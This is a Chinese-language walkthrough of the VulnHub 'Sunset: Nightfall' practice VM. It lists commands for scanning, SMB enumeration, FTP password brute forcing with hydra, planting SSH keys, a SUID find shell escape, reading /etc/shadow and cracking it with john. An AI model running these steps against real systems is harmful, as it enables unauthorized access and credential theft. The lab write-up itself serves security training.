 # Sunset: Nightfall

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Nightfall（IP：192.168.56.104）

下载：https://www.vulnhub.com/entry/sunset-nightfall,355/

## Let's go

```
nmap -A 192.168.56.104
```

![](./img/Sunset：Nightfall-01.png)![](./img/Sunset：Nightfall-02.png)

```
dirb http://192.168.56.104/
```

![](./img/Sunset：Nightfall-03.png)

> **并没有发现什么，我们对SMB进行枚举**

```
enum4linux -a 192.168.56.104
```

![](./img/Sunset：Nightfall-04.png)

> **得到两个用户 ‘nightfall’ 和 ‘matt’ ，接下来我们进行暴力破解**

```
# SSH破解很长时间无效果，FTP破解很快就出来了
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr 192.168.56.104 ftp -f
```

![](./img/Sunset：Nightfall-05.png)

```
ftp 192.168.56.104
username:matt
password:cheese
```

![](./img/Sunset：Nightfall-06.png)

```
# 我们通过FTP将SSH密钥上传
ssh-keygen
cp .ssh/id_rsa.pub authorized_keys
chmod 777 authorized_keys
```

![](./img/Sunset：Nightfall-07.png)

```
mkdir .ssh
cd .ssh
put authorized_keys
```

![](./img/Sunset：Nightfall-08.png)

```
ssh matt@192.168.56.104
```

![](./img/Sunset：Nightfall-09.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/Sunset：Nightfall-10.png)

```
cd /scripts
./find . -exec /bin/sh -p \;
```

![](./img/Sunset：Nightfall-11.png)

>这是一个受限的shell，因此我们要想办法

```
cd /home/nightfall
mkdir .ssh
cd .ssh
wget http://192.168.56.102/authorized_keys
```

![](./img/Sunset：Nightfall-12.png)

```
ssh nightfall@192.168.56.104
```

![](./img/Sunset：Nightfall-13.png)

```
sudo -l
```

![](./img/Sunset：Nightfall-14.png)

```
sudo cat /etc/shadow
```

![](./img/Sunset：Nightfall-15.png)

```
vim root		# 将哈希写入root
john root
```

![](./img/Sunset：Nightfall-16.png)

```
su root
password:miguel2
cd
cat root_super_secret_flag.txt
```

![](./img/Sunset：Nightfall-17.png)